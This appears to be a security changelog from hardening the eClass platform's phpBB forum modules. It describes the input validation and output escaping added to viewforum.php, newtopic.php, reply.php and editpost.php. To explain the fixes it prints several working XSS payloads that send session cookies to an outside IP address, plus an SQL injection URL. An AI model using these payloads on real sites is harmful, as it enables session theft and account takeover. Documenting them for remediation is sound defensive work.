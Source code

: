 # Changelog for eClass


### Changes in /include/lib/
#### Changes in main.lib.php
 * Changed db_query to not display error info of sql_queries

### Changes in /module/phbb/
#### viewforum.php && viewtopic.php
  * Added checking if $_GET['forum'] is a number and complies with the UTF-8 standard lines 75 - 81. This should prevent this page from sql injections as well as non persistent XSS attacks
  * possible XSS attack
  ``` javascript  
  http://geza.csec.gr/modules/phpbb/viewforum.php?forum=
  <script>window.onload=function() {
  console.log('hey');
  var logo = document.getElementById("logo");
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  logo.href=link;
  }</script>
  ```  

#### newtopic.php & functions.php & reply.php
  * We can have injections here from $_GET['forum'] attribute. More specifically if we send non numeric values through the $_GET we have an sql error reporting rendered. This is wrong.
  We added lines 83-91 in order to be sure that the input incoming from the $_GET['forum'] is correct and we suppressed the sql error output  
   ** hint ** sql possible injection here http://geza.csec.gr/modules/phpbb/newtopic.php?forum=1%27%20%20or%20%27a%27

  * The above xss attack can be used here
  * Also this attack when selecting html in the xinha editor
  ```html  
  <html>
  <script>window.onload=function() {
  console.log('hey');
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  window.location = link;
  }</script>
  </html>
  ```  
  In order to stop incoming xss attacks we have added a function in functions.php called stripUnwantedTagsAndAttrs which allows only specific tags to  be accepted. Possibly here if we change the encoding we might have problems. **check this again**  
  * Actually we have to remove that since this function removes completely user input if the text is plain text. So we have to use htmlescapechars. So we used htmlescapechars when getting the message as well as also when rendering the reply
  * subject seems to be safe with the strip tags function

### reply.php & new topic.php
  * Possible persistent xss attack here by selecting html in editor and then writing:
  ```html  
  <html>
  <script>window.onload=function() {
  console.log('hey');
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  window.location = link;
  }</script>
  </html>
 ```  

 ### editpost.php  
  * we did the same here. We applied sanitization tehniques to the url parameters as well as htmlescapechars when rendering the editpost because the script could be executed on the admin side and take control of session.
  Changes on lines 80 - 103 and changes on 354 & 362  

  ## Changes in directory modules/dropbox for the exchange of files  
  
